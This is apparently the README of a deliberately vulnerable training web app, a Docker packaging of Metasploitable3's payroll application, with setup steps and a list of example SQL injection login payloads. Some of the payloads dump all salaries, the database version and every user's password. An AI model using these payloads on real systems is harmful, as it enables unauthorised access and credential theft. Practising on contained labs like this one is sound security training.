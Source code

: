 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Project Instructions

Install the project requirements on your choice of operating system, including:

- Docker
- Docker Compose plugin

Run using either of the following:

- `make run`
- `docker compose up --build`

Open web browser and visit:

- `localhost:8080`

Clean the Docker environment (after making changes):

- `make clean`

## Example Payloads

1. Normal login to get users salary:
    - `username`: `jim_james`
    - `password`: `VictoryDance!

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`: `' UNION SELECT username,password FROM users#`
    - `password`: `anythingyouwant`

